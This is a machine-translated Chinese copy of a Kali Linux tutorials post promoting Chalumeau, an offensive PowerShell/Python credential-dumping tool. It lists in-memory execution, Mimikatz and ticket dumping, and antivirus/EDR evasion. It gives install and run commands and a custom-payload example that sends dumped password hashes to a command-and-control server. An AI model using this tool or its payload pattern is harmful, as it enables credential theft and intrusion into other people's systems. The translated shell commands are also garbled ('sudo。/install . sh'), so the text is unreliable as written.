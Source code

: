 # Chalumeau:自动化、可扩展和可定制的凭证转储工具

> 原文：<https://kalilinuxtutorials.com/chalumeau/>

[![Chalumeau : Automated, Extendable & Customizable Credential Dumping Tool](img//04cd394a20579faa0223db2b1e8b51b2.png "Chalumeau : Automated, Extendable & Customizable Credential Dumping Tool")](https://1.bp.blogspot.com/-YXlo6V5rHCw/XzBPXMGmixI/AAAAAAAAHUQ/ACjYBimciq8Xjq4Coooe7o8NuRgCU3JNgCLcBGAsYHQ/s728/c1%25281%2529.png)

Chalumeau 是基于 powershell 和 python 的自动化、可扩展和可定制的凭证转储工具。

**主要特点**

*   编写您自己的有效负载
*   内存中执行
*   提取密码列表
*   仪表板报告/ Web 界面
*   解析 Mimikatz
*   倾倒门票

**已知问题**

*   解析 Mimikatz dcsync(正在修复)
*   绕过防病毒和 EDRs，您将需要维护您的有效载荷

**待办事项**

*   加密通信
*   自动横向移动
*   自动化密码喷涂
*   自动哈希破解

**使用**

git 克隆 https://github.com/cyberstruggle/chalumeau.git
CD chalumeau/
chmod+x install . sh
sudo。/install . sh

# Run
chmod+x start . sh
sudo。/start.sh

**编写自己的有效载荷**

混淆您自己的 powershell 有效负载以转储凭据，并在没有任何导入的情况下使用 chalumeau 函数调用 chalumeau 将加密并与 c2 联系，然后发送转储的凭据。只需将文件保存在 chalumeau-power/payloads 下

*   使用 ChalumeauSendCredentials 函数
    *   ChalumeauSendCredentials
        *   Secret =转储的哈希或明文密码(字符串)
        *   Username =转储凭据的 id 的用户名(字符串)
        *   如果是明文，IsClearText = 1，否则为 0(int)
        *   Source =提及源负载，如“Mimikatz Hash”(字符串)

**#** 自定义负载示例
#$ dumped hashes 是来自本地机器的转储散列的数组
foreach($ hash in $ dumped hashes){
ChalumeauSendCredentials-Secret $ hash . Secret-Username $ hash . user-IsClearText 0-source " My Custom Payload "
}

**学分**

*   瓦泽尔[作者](https://twitter.com/safe_buffer)
*   丹尼尔·博汉南
*   invoke-Mimikatz[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
*   Get-PassHashes [霓裳](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1)
*   夏鲁摩标志[奥雷连诺](https://twitter.com/aurelbedelia)
*   调用-MassMimikatz [电动工具](https://github.com/PowerShellEmpire/PowerTools/blob/master/PewPewPew/Invoke-MassMimikatz.ps1)

[**Download**](https://github.com/cyberstruggle/chalumeau)